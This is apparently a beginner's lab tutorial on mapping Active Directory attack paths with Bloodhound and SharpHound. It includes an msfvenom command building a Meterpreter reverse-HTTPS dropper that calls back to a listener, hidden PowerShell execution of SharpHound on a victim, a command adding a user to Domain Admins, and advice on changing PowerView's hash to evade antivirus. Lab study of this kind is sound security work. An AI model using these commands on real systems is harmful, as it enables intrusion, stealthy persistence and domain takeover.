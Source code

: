 ```yaml
---
title: Bloodhound basics
date: 2023-03-08
categories: [beginner, offensive-security]
---
```


# Bloodhound
### What is it?
Bloodhound describes their product as using graph theory to reveal hidden and unintended links between users and groups that makes lateral movement easier for attackers. Naturally this is fantastic for defenders as well since you can view these paths and preemptively close them off or create alerting around when they're traversed.

### Setting up an AD environment with Badblood
First things first, I do not have a thousand person company with which to test active directory relationships. I also don't want to spend hours upon hours creating this by hand. Thankfully, someone else also didn't want to do this and so automated it! Enter Badblood. This is a Powershell script that can be used to fill an AD environment with randomness. Thousands of users and groups and relations with which to test and play around with. This can be downloaded from [their Github page](https://github.com/davidprowe/BadBlood), and running it is as simple as launching an admin Powershell window, navigating to the folder, setting the execution policy to unrestricted with ```set-executionpolicy unrestricted```, and then launching it with ```.\Invoke-badblood.ps1```.

![Upgraded AD](/assets/img/bloodhound/upgraded-ad-badblood.png)

Now this is an AD environment!

### Running Bloodhound
For this example, we'll be running Bloodhound from our Kali machine, emulating the attacker. The first step is to install neo4j through ```sudo apt install neo4j``` - this is needed as it is our graph database management system. Start it with ```sudo neo4j start``` and after waiting a minute, browse to ```http:localhost:7474``` and login with the username and password neo4j/neo4j. Set a new password here to whatever you want, and we're now ready to install Bloodhound. Just like before, we'll install this with ```sudo apt install bloodhound``` and start it with ```sudo bloodhound```. You should see the Bloodhound screen popup with similar to this.

![Bloodhound](/assets/img/bloodhound/bloodhound-login.png)

This is great and all, but our database is empty. There are no complicated AD relationships to untangle. So let's change that. We could just generate random data for a DB with a provided Python script, or we could practice taking that data from a DC.

### Enter SharpHound
Sharphound is a .NET executable that, when run, uses LDAP to collect information on all OU's, computers, accounts, and groups, as well as the links between them. This can uncover a lot of otherwise impossible to discover links between groups and users. We can run SharpHound from our C2 in order to generate some data for BloodHound. For this, we will be running Sharphound from a Metasploit console just for ease of reproduction - it's free and everyone has a copy! First, we'll use msfvenom in order to generate the staged dropper.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.50 lport=443 -f exe > dropper.exe
```
Then, we'll host a listener through Metasploit with the ```multi/handler```.
![Meterpreter](/assets/img/bloodhound/meterpreter-listener.png)

Once started, we're ready for the staged dropper to connect back and start our session. Upload Sharphound to the victim through ```upload SharpHound.exe``` and run it with ```execute -f SharpHound.exe```. This will start a new process and pop a very obvious shell window on the victim machine that shows Sharphound executing.
![SharpHound](/assets/img/bloodhound/running-sharphound.png)
This can be hidden by first dropping into a shell with ```shell``` and then running SharpHound through ```PowerShell.exe -WindowStyle hidden C:\Users\matt\Downloads\SharpHound.exe```. Finally, grab the output from Sharphound which is a zip file with ```download <filename>```.

### What info is gleaned?
Drag and drop this zip into Bloodhound and we're ready. Upon first examination of the data in Bloodhound, it's a huge mess.
![A mess](/assets/img/bloodhound/bloodhound-getting-admin.png)
However, within this, we can identify some interesting lateral movement paths that bring us to domain admin.
![Path to DA](/assets/img/bloodhound/bloodhound-path-to-da.png)
If we then focus in on one path only, we can see that there exists a number of group chains that connects the unprivileged account of Roger Lowery to Ellen Hale.
![Example path](/assets/img/bloodhound/bloodhound-path-to-da-longest-path.png)
Let's see how this looks in AD to get an idea of the path that Bloodhound has identified.
![AD Comparison](/assets/img/bloodhound/ad-comparison.png)
This is odd. We can see the group memberships flowing from Roger up through LA-CAS-DISTLIST1 but where is this link to KA-COC-ADMINGROUP1 coming from? The answer is the AD permission GenericAll. GenericAll grants the group full permission over the object, much like Domain Admin.

![EA](/assets/img/bloodhound/effective-access.png)

They have all permissions possible. This is outlined in the security tab of the AD object as an extra set of permissions that are granted. And not only does this group we're looking at have GenericAll permissions to another group, that next group has GenericAll permissions to the Domain Admin Ellen Hale, giving us our attack path. This is what makes Bloodhound stand out, finding things like these obscure permission settings that are not immediately obvious.

Helpfully, Bloodhound gives us the commands that we need to run in order to abuse this group relationship. You can see these by right-clicking the attack path and selecting help, then going to the "Abuse Info" tab.
![Abuse Info](/assets/img/bloodhound/bloodhound-help.png)

### Opsec considerations

SharpHound is designed to blend in with normal AD traffic, but there are certain key details you can hunt for. Event ID 5156 is generated en masse in the security logs when SharpHound starts, querying LDAP.

![AD](/assets/img/bloodhound/ad-event-5156.png)

Another thing to consider is the commands that are suggested in the attack path. They are the "easiest" ways to perform the privilege escalation, but they are also *noisy* and that attracts attention. Bloodhound recommends importing PowerView to the endpoint in order to perform a lot of privilege escalation and, while this will create less alerts compared to just running ```net group "Domain Admins" userName /add /domain```, PowerView gets detected very quickly. This can be mitigated to a degree by changing the hash, reducing the amount of engines statically detecting it. But there's still a high risk at run time that the commands will raise flags.

![VT](/assets/img/bloodhound/powersploit-updated-hash.png)
